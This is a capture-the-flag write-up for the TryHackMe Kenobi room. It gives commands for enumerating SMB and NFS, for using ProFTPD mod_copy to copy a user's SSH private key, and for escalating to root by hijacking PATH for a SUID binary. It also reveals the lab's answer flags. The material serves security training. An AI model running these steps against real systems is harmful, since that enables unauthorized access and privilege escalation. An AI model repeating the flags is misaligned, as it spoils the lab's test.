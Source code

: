 # 🛡️ Kenobi — TryHackMe Write-Up

> Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.  
> Room: **[Kenobi](https://tryhackme.com/room/kenobi)**

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/46f437a95b1de43238c290a9c416c8d4.png" alt="Kenobi banner" />
</p>

<p align="center">
  <a href="https://tryhackme.com/room/kenobi"><img src="https://img.shields.io/badge/TryHackMe-Kenobi-red?logo=tryhackme&logoColor=white" /></a>
  <img src="https://img.shields.io/badge/Difficulty-Intermediate-orange" />
  <img src="https://img.shields.io/badge/Focus-SMB%20%7C%20FTP%20%7C%20PrivEsc-blue" />
  <img src="https://img.shields.io/badge/Platform-Linux-black?logo=linux" />
</p>

---

## 📚 Table of Contents
- [About](#-about)
- [Topics Covered](#-topics-covered)
- [Appendix Archive](#-appendix-archive)
- [Deploy the Machine](#-deploy-the-machine)
- [Enumeration](#-enumeration)
- [SMB Enumeration & Exploitation](#-smb-enumeration--exploitation)
- [ProFTPD Exploit (mod_copy)](#proftpd-exploit-mod_copy)
- [Mounting NFS & Initial Access](#-mounting-nfs--initial-access)
- [Privilege Escalation (PATH manipulation)](#-privilege-escalation-path-manipulation)
- [Answers (Hidden)](#-answers-hidden)
- [Further Reading & Credits](#-further-reading--credits)

---

## 🔎 About
This write-up documents the Kenobi TryHackMe room. The goal is to enumerate network services (SMB/NFS/FTP), abuse a vulnerable ProFTPD `mod_copy` module to retrieve an SSH key, access the user account, and escalate to root via a misconfigured SUID binary that uses the PATH environment variable insecurely.

> **Use only on authorised machines and lab environments.**

---

## ✅ Topics Covered
- Network Enumeration
- SMB Enumeration
- SMB Exploitation (anonymous shares)
- ProFTPD `mod_copy` abuse (unauthenticated file copy)
- Mounting NFS exports
- Privilege Escalation via PATH manipulation and SUID binaries

---

## 🚀 Deploy the Machine
1. Connect to the TryHackMe network and deploy the Kenobi machine.  
`No answer needed`

2. Scan the machine with `nmap` to discover services (example output preserved below in CLI block).

```bash
kali@kali:~/CTFs/tryhackme/Kenobi$ sudo nmap -A -p- 10.10.137.113
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 19:52 CEST
Nmap scan report for 10.10.137.113
Host is up (0.030s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
...
Nmap done: 1 IP address (1 host up) scanned in 60.38 seconds
```

**How many ports are open?**  
`7`

---

## 🧭 SMB Enumeration & Shares
Use `nmap`'s SMB scripts to enumerate shares:

```bash
sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```

Example output (preserved from lab):

```
| smb-enum-shares:
|   account_used: guest
|   \MACHINE_IP\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Path: C:	mp
|     Anonymous access: READ/WRITE
|   \MACHINE_IP\anonymous:
|     Type: STYPE_DISKTREE
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|   \MACHINE_IP\print$:
|     Type: STYPE_DISKTREE
|     Path: C:ar\lib\samba\printers
|     Anonymous access: <none>
```

**How many shares have been found?**  
`3`

Connect with `smbclient` to the `anonymous` share and list files (CLI preserved):

```bash
smbclient //MACHINE_IP/anonymous
# then at the smb prompt:
ls
```
You should see a file named `log.txt` on the share.

You can recursively download the share with `smbget -R smb://MACHINE_IP/anonymous` and inspect files like `log.txt` to find clues (SSH key info, ProFTPD notes).

**What port is FTP running on?**  
`21`

Use `nmap` to enumerate NFS exports:

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
```

**What mount can we see?**  
`/var`

---

## ⚙️ ProFTPD — mod_copy Exploit (Initial Access)
ProFTPD 1.3.5 with `mod_copy` allows unauthenticated clients to issue `SITE CPFR` and `SITE CPTO` to copy files. We can copy `/home/kenobi/.ssh/id_rsa` to `/var/tmp/id_rsa`:

```
nc MACHINE_IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [MACHINE_IP]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

`No answer needed`

---

## 🗂️ Mount NFS & Retrieve SSH Key (Local Machine)
On your attacking machine, mount the NFS export and retrieve the copied SSH private key:

```bash
mkdir /mnt/kenobiNFS
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@MACHINE_IP
```

Once logged in as `kenobi`, view the `user.txt`:

```
kenobi@kenobi:~$ cat user.txt
<hidden - click to reveal below>
```

---

## 🔐 Privilege Escalation — PATH Variable Manipulation
Find SUID binaries that may be dangerous:

```bash
find / -perm -u=s -type f 2>/dev/null
```

One unusual SUID binary is `/usr/bin/menu`.

Run the binary to see available options (preserve CLI output):

```bash
/usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

Because `menu` calls common utilities **without full paths**, we can inject a fake binary into our `PATH`. Example (done on the target):
```bash
cd /tmp
echo /bin/bash > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# choose option that triggers curl (or similar) → root shell!
```

This grants a root shell due to the binary running with elevated privileges and using our `PATH` to resolve commands.

---

## 🧩 Answers (Hidden)
Click to reveal the answers and flags found during the lab.

<details>
  <summary><strong>Kenobi user.txt</strong> (click to reveal)</summary>

  ```txt
  d0b0f3f53b6caa532a83915e19224899
  ```
</details>

<details>
  <summary><strong>Kenobi root.txt</strong> (click to reveal)</summary>

  ```txt
  177b3cd8562289f37382721c28381f02
  ```
</details>

---

## 📚 Further Reading & Credits
- ProFTPD `mod_copy` exploit details and PoCs (searchsploit entries for ProFTPD 1.3.5)  
- NFS and RPC enumeration techniques  
- PATH-based privilege escalation writeups and SUID pitfalls

---

### ⚠️ Disclaimer
This write-up is for **educational purposes only**. Do not attempt these techniques on systems you do not own or have explicit permission to test.


